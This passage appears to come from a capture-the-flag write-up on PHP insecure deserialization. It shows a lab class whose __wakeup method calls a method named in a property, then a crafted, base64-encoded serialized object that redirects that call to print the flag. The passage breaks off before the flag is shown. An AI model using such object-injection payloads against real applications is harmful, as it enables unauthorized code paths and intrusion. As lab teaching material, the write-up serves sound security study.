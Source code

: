 ````
└─$ cat original.php
<?php
    class Hackademy{
        private $call = "WelcomeMessage";

        public function __construct() {

        }

        public function __wakeup(){
            $this->{$this->call}();
        }

        public function WelcomeMessage(){
            echo "Hello World!";
        }

        public function GiveMeFlagPrettyPlease(){
            echo "FLAG-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";
        }
    }
    $serialized = serialize(new Hackademy());
    echo $serialized;
    echo "\n"
?>
└─$ ~/serialize101$ php original.php 
O:9:"Hackademy":1:{s:15:"Hackademycall";s:14:"WelcomeMessage";}
````
What I will do is modify the class to assign the GiveMeFlagPrettyPlease function to the call property instead of WelcomeMessage (you can see that only the call property is stored in the object, please refer to [Portswigger Academy](https://portswigger.net/web-security/deserialization/exploiting#php-serialization-format) for a more thorough explanation of the serialized object representation). So here is my code:
````
<?php
    // Payload
    class Hackademy{
        private $call = "GiveMeFlagPrettyPlease";
    }   
    $serialized = serialize(new Hackademy());

    // Output
    echo "Serialized:\n";
    echo $serialized;
    echo "\n";
    echo "Encoded:\n";
    echo base64_encode($serialized);
    echo "\n";
?>
````
Ran it:
````
└─$ php serialize.php  
Serialized:
O:9:"Hackademy":1:{s:15:"Hackademycall";s:22:"GiveMeFlagPrettyPlease";}
Encoded:
Tzo5OiJIYWNrYWRlbXkiOjE6e3M6MTU6IgBIYWNrYWRlbXkAY2FsbCI7czoyMjoiR2l2ZU1lRmxhZ1ByZXR0eVBsZWFzZSI7fQ==
````
Then used that base64 string in the **s** parameter and got the flag:
